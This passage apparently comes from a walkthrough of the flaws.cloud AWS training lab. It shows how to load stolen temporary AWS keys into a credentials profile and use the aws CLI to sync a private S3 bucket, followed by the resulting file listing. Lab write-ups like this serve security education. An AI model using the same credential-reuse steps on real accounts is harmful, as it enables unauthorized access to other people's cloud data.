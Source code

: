We just need to create another profile and import the stolen keys in our environment to see if can do anything with them.


!!!warning
    [Temporary (AWS STS) access key IDs](https://docs.aws.amazon.com/STS/latest/APIReference/API_Credentials.html) - as denoted by the `ASIA` prefix in the `AccessKeyId` field - require to add an extra field in the `aws profile` configuration file:
        ```
        # cat ~/.aws/credentials
        [level6]
        aws_access_key_id = <AccessKeyId>
        aws_secret_access_key = <SecretAccessKey> 
        aws_session_token = <Token>
        ```
    
```
fog@cloudbreach:~/flaws/level6$ aws s3 sync s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ . --profile level6
fog@cloudbreach:~/flaws/level6$ ll
total 16
drwxrwxr-x 3 fog fog 4096 Dec  8 22:10 ./
drwxrwxr-x 8 fog fog 4096 Dec 13 03:18 ../
drwxrwxr-x 2 fog fog 4096 Dec  8 22:10 ddcc78ff/
-rw-rw-r-- 1 fog fog  871 Feb 26  2017 index.html
```
